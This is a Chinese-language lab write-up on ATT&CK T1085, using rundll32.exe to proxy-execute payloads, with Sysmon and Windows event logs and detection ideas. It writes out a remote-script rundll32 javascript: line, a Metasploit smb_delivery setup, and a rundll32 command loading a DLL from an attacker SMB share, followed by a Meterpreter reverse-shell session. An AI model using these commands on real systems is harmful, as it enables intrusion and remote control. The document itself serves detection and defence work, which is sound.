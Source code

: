 # T1085-win-基于白名单Rundll32.exe执行payload

## 来自ATT&CK的描述

Rundll32.exe程序可以调用来执行任意二进制文件。攻击者可能会利用此功能来代理执行代码，从而避免触发那些可能不会监控rundll32.exe进程执行的安全工具，因为正常操作中使用rundll32.exe的Windows会有白名单或误报。

Rundll32.exe可用于通过未记录的shell32.dll函数Control_RunDLL和 Control_RunDLLAsUser来执行控制面板项目文件（.cpl）。双击.cpl文件也会触发rundll32.exe执行。

Rundll32也可用于执行JavaScript等脚本。可以使用类似于下面的语法来完成：rundll32.exe javascript:"..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https[:]//www[.]example[.]com/malicious.sct")" 。这种方法已被恶意软件如Poweliks所使用。

## 测试案例

Rundll32.exe是指“执行32位的DLL文件”。它的作用是执行DLL文件中的内部函数,功能就是以命令行的方式调用动态链接程序库。

说明：Rundll32.exe所在路径已被系统添加PATH环境变量中，因此，Wmic命令可识别，需注意x86，x64位的Rundll32调用。

windows 2003默认位置：

```bash
C:\Windows\System32\rundll32.exe
C:\Windows\SysWOW64\rundll32.exe
```

win7默认位置：

```bash
C:\Windows\System32\rundll32.exe
C:\Windows\SysWOW64\rundll32.exe
```

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

## 检测日志

windows 安全日志（需要自行配置）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：win7（sysmon日志）

### 攻击分析

#### 配置MSF

```bash
msf5 > use exploit/windows/smb/smb_delivery
msf5 exploit(windows/smb/smb_delivery) > set srvhost 192.168.126.146
srvhost => 192.168.126.146
msf5 exploit(windows/smb/smb_delivery) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.126.146:4444
[*] Started service listener on 192.168.126.146:445
[*] Server started.
[*] Run the following command on the target machine:
rundll32.exe \\192.168.126.146\huwSj\test.dll,0
```

#### 靶机执行payload

```cmd
rundll32.exe \\192.168.126.146\huwSj\test.dll,0
```

#### 反弹shell

```bash
msf5 exploit(windows/smb/smb_delivery) > [*] Sending stage (180291 bytes) to 192.168.126.149
[*] Meterpreter session 1 opened (192.168.126.146:4444 -> 192.168.126.149:49381) at 2020-04-17 15:24:05 +0800
msf5 exploit(windows/smb/smb_delivery) > sessions

Active sessions
===============

  Id  Name  Type                     Information                         Connection
  --  ----  ----                     -----------                         ----------
  1         meterpreter x86/windows  12306Br0-PC\12306Br0 @ 12306BR0-PC  192.168.126.146:4444 -> 192.168.126.149:49381 (192.168.126.149)
msf5 exploit(windows/smb/smb_delivery) > sessions 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: 12306Br0-PC\12306Br0
```

## 测试留痕

sysmon日志记录

```log
EVentID: 1
Image: C:\Windows\SysWOW64\rundll32.exe
FileVersion: 6.1.7600.16385 (win7_rtm.090713-1255)
Description: Windows host process (Rundll32)
Product: Microsoft® Windows® Operating System
Company: Microsoft Corporation
OriginalFileName: RUNDLL32.EXE
CommandLine: rundll32.exe  \\192.168.126.146\huwSj\test.dll,0
```

win7安全日志记录

```log
EVentID: 4688
进程信息:
新进程 ID: 0xa30
新进程名: C:\Windows\SysWOW64\rundll32.exe

EVentID: 5158
应用程序信息:
进程 ID: 2608
应用程序名称: \device\harddiskvolume2\windows\syswow64\rundll32.exe

EVentID: 5156 #Windows 筛选平台已允许连接。
应用程序信息:
进程 ID:2608
应用程序名称: \device\harddiskvolume2\windows\syswow64\rundll32.exe

网络信息:
方向: 出站
源地址: 192.168.126.149
源端口: 49381
目标地址: 192.168.126.146
目标端口: 4444
```

## 检测规则/思路

无具体检测规则。事实上在windows server 2008以上版本可对进程命令行进行监控。windows server 2008以下建议通过部署sysmon来进行监控，也可以根据多事件关联分析。

通过进程监控来检测和分析rundll32.exe的执行和参数。比较rundll32.exe的近期调用与历史已知合法参数及已加载动态链接库来确定是否有异常和潜在的攻击活动。在rundll32.exe调用之前和之后使用的命令参数也可用于确定正在加载的动态链接库的来源和目的。

## 参考推荐

MITRE-ATT&CK-T1085:<https://attack.mitre.org/techniques/T1085/>

windows下基于白名单获取shell的方法整理（上）:<http://www.safe6.cn/article/155>
